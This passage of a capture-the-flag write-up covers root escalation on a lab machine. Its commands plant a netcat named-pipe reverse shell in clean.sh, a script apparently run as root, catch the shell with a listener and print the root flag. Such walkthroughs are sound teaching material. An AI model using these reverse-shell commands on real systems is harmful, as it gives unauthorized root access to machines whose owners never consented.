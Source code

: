 With the proven concept, I wrote the reverse shell connection in `clean.sh` to be ran as root.
```
www-data@dmv:/var/www/html/tmp$ echo "mknod /tmp/backpipe3 p" > clean.sh
www-data@dmv:/var/www/html/tmp$ echo "/bin/sh 0</tmp/backpipe3 | nc 192.168.1.189 4646 1>/tmp/backpipe3" >> clean.sh

www-data@dmv:/var/www/html/tmp$ cat clean.sh
mknod /tmp/backpipe3 p
/bin/sh 0</tmp/backpipe3 | nc 192.168.1.189 4646 1>/tmp/backpipe3
```

Listen `4646` port on my host machine.
```
$ nc -lvp 4646
listening on [any] 4646 ...
```

After click on "Clean Downloads" button, we have the root shell.
```
192.168.1.183: inverse host lookup failed: Unknown host
connect to [192.168.1.189] from (UNKNOWN) [192.168.1.183] 33266

python3 -c 'import pty;pty.spawn("/bin/bash")'

root@dmv:/var/www/html/tmp# id
uid=0(root) gid=0(root) groups=0(root)
```

### Flag #2 - Root

```
root@dmv:~# cat /root/root.txt
flag{d9b368018e912b541a4eb68399c5e94a}
```
